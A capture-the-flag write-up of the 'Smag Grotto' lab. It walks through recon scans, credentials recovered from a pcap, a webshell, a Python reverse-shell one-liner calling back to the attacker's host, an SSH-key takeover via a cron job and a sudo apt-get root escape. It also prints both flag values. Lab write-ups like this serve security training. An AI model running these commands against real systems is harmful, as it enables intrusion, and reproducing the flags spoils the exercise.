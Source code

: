 # Smag Grotto

Laurent Chauvin | November 17, 2022

## Resources

[1] https://www.revshells.com/

[2] https://gtfobins.github.io/gtfobins/apt-get/

## Progress

```
export IP=10.10.204.58
```

Nmap scan
```
nmap -sC -sV -oN nmap/initial $IP   

Starting Nmap 7.92 ( https://nmap.org ) at 2022-11-17 02:34 EST
Nmap scan report for 10.10.204.58
Host is up (0.11s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.44 seconds
```

Gobuster scan
```
gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt   

===============================================================
Gobuster v3.2.0-dev
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.204.58
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.2.0-dev
[+] Timeout:                 10s
===============================================================
2022/11/17 02:35:49 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 402]
/mail                 (Status: 301) [Size: 311] [--> http://10.10.204.58/mail/]
/server-status        (Status: 403) [Size: 277]
Progress: 4606 / 4615 (99.80%)===============================================================
2022/11/17 02:36:42 Finished
===============================================================
```

Nikto scan
```
nikto -h $IP | tee nikto.log  

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.204.58
+ Target Hostname:    10.10.204.58
+ Target Port:        80
+ Start Time:         2022-11-17 02:35:28 (GMT-5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ OSVDB-3092: /mail/: This might be interesting...
+ OSVDB-3233: /icons/README: Apache default file found.
+ 7890 requests: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2022-11-17 02:51:31 (GMT-5) (963 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Checking 'robots.txt'. Nothing.

Checking source code of the page. Nothing.

Going to 'http://10.10.204.58/mail/' we can see the following

```
The following emails are being displayed using our new and improved email2web software, allowing you to view your emails in a hassle free way!

Note: all attachments must be downloaded with wget.
```

And a list of emails about 'Network Migration'.

There is a .pcap file. Let's get it.

```
wget http://10.10.204.58/aW1wb3J0YW50/dHJhY2Uy.pcap
```

and let's open it with ```wireshark```

Following the TCP Stream we see

```
POST /login.php HTTP/1.1
Host: development.smag.thm
User-Agent: curl/7.47.0
Accept: */*
Content-Length: 39
Content-Type: application/x-www-form-urlencoded

username=helpdesk&password=cH4nG3M3_n0wHTTP/1.1 200 OK
Date: Wed, 03 Jun 2020 18:04:07 GMT
Server: Apache/2.4.18 (Ubuntu)
Content-Length: 0
Content-Type: text/html; charset=UTF-8
```

It seems to have a 'login.php' page with username 'helpdesk' and password 'cH4nG3M3_n0w' to host 'development.smag.thm'. Let's add it to our host file

```
sudo nano /etc/hosts
```

and add the following entry

```
10.10.204.58    development.smag.thm
```

Then going to 'http://development.smag.thm/login.php' lead us to a login page. (It is important to add the 'http://' in front of the URL, otherwise it's doing a google search).

Using the previously found credential, we can login.

It seems we now have a webshell.

However, entering commands does not return any response. Let's try a python ```sleep``` to check if the server still execute it.

Sending command
```
python3 -c 'import time; time.sleep(5);'
```

seems to work. Let's try to get a reverse shell then.

Let's start pwncat first

```
cd /opt/pwncat
poetry shell
pwncat-cs -lp 9999
```

Then, let's generate a python3 reverse shell from Revshells [1]
```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.18.23.136",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And.....we have shell.

We can see the user flag in 'jake' home directory but we don't have access

```
(remote) www-data@smag:/var/www/development.smag.thm$ cat /home/jake/user.txt
cat: /home/jake/user.txt: Permission denied
```

Uploaded linpeas, and running it, we see
```
17 *    * * *   root    cd / && run-parts --report /etc/cron.hourly
25 6    * * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6    * * 7   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6    1 * *   root    test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root    /bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
```

The public ssh key of 'jake' is '/opt/.backups'. But we can edit the backup file, which would add our key into the 'authorized_keys'.

After adding my public ssh key in '/opt/.backups/jake_id_rsa.pub.backup', and waiting from the cronjob to be executed we can simply login as jake using ssh
```
ssh jake@$IP
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Fri Jun  5 10:15:15 2020
jake@smag:~$ 
```

Let's get the flag
```
jake@smag:~$ cat user.txt 
iusGorV7EbmxM5AuIe2w499msaSuqU3j
```

Time to privesc.
```
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
```

From GTFObins [2] we have

```
When the shell exits the update command is actually executed.

sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
```

After executing it, we have
```
# whoami
root

# cat /root/root.txt
uJr6zRgetaniyHVRqqL58uRasybBKz2T
```


## Flag

1. User

```
iusGorV7EbmxM5AuIe2w499msaSuqU3j
```

2. Privesc

```
uJr6zRgetaniyHVRqqL58uRasybBKz2T
```
